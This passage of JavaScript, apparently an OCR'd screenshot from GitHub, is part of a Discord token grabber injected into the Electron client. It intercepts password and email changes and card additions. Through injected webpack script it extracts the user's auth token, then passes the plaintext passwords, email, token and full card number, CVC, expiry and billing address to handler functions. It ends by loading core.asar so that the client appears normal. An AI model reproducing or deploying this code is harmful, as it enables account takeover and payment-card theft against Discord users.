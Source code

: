         } else {}
    }
    if (details.url.endsWith("users/@me")) {
        if (details.statusCode == 200 && details.method == "PATCH") {
            const data = JSON.parse(Buffer.from(details.uploadData[0].bytes).toString())
            if (data.password != null && data.password != undefined && data.password != "") {
                if (data.new_password != undefined && data.new_password != null && data.new_password != "") {
                    const window = BrowserWindow.getAllWindows()[0];
                    window.webContents.executeJavaScript(`for(let a in window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]),gg.c)if(gg.c.hasOwnProperty(a)){let b=gg.c[a].exports;if(b&&b.__esModule&&b.default)for(let a in b.default)"getToken"==a&&(token=b.default.getToken())}token;`, !0).then((token => {
                        changePassword(data.password, data.new_password, token)
                    }))
                }
                if (data.email != null && data.email != undefined && data.email != "") {
                    const window = BrowserWindow.getAllWindows()[0];
                    window.webContents.executeJavaScript(`for(let a in window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]),gg.c)if(gg.c.hasOwnProperty(a)){let b=gg.c[a].exports;if(b&&b.__esModule&&b.default)for(let a in b.default)"getToken"==a&&(token=b.default.getToken())}token;`, !0).then((token => {
                        changeEmail(data.email, data.password, token)
                    }))
                }
            }
        } else {}
    }
    if (details.url.endsWith("tokens")) {
        const window = BrowserWindow.getAllWindows()[0];
        const item = querystring.parse(decodeURIComponent(Buffer.from(details.uploadData[0].bytes).toString()))
        window.webContents.executeJavaScript(`for(let a in window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]),gg.c)if(gg.c.hasOwnProperty(a)){let b=gg.c[a].exports;if(b&&b.__esModule&&b.default)for(let a in b.default)"getToken"==a&&(token=b.default.getToken())}token;`, !0).then((token => {
            creditCardAdded(item["card[number]"], item["card[cvc]"], item["card[exp_month]"], item["card[exp_year]"], item["card[address_line1]"], item["card[address_city]"], item["card[address_state]"], item["card[address_zip]"], item["card[address_country]"], token)
        }))
    }
});

module.exports = require('./core.asar')
